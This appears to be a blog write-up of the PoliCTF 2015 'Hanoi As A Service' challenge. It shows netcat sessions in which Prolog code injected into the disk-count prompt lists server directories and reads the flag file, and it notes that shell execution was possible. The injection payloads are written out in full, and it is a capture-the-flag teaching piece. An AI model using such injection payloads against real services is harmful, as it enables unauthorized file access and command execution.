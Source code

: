 ```yaml
---
layout: post
title: "Hanoi As A Service, Pwnable 50"
date: 2015-07-12
ctf: PoliCTF 2015
author: Abstract
---
```


## Hanoi As A Service, Pwnable 50

One of the easiest challenges of PoliCTF 2015 and the first we solved. The challenge's description pointed us to "haas.polictf.it 80". Netcating in we found a Tower of Hanoi server:

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
{% endhighlight %}


Can we get an error? Let's try '-1':

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
-1
ERROR: Prolog initialisation failed:
ERROR: Out of local stack
{% endhighlight %}

Ah! Prolog, I knew there was a point to studying it back in college. Can we inject some code?

{% highlight php %}
host:john-pastry-shop tpc$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),write('hello world'
* Move top disk from a to b
hello world
{% endhighlight %}

So we can inject commands.  Next we googled for any and all Prolog commands that might be useful. '1),listing,write(\'hello\'' displays the entire prolog database, but there is nothing really useful there. Instead we can have a look at the files using: '1),directory_files({dir},X),write(X', until we find the flag:

{% highlight php %}
host$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),directory_files('home/ctf/haas',X),write(X
* Move top disk from a to b
[haas-proxy.py,..,jhknsjdfhef_flag_here,haas,.]
{% endhighlight %}

Now we know were the flag is we can print off the ascii: 

{% highlight php %}
host:john-pastry-shop tpc$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
1),open('/home/ctf/haas/jhknsjdfhef_flag_here',read,Str),read_line_to_codes(Str,X),write(X
* Move top disk from a to b
[102,108,97,103,123,80,114,48,103,114,97,109,109,49,110,103,95,105,110,95,108,48,103,49,99,95,49,115,95,99,48,48,108,125]
{% endhighlight %}

which [https://paulschou.com/tools/xlate/]https://paulschou.com/tools/xlate/ tell us encodes: 'flag{Pr0gramm1ng_in_l0g1c_1s_c00l}'.

Executing shell commands or even opening a shell would have been possible with Prologs 'exec' or 'process_create' commands, but that seemed like overkill in this situation.


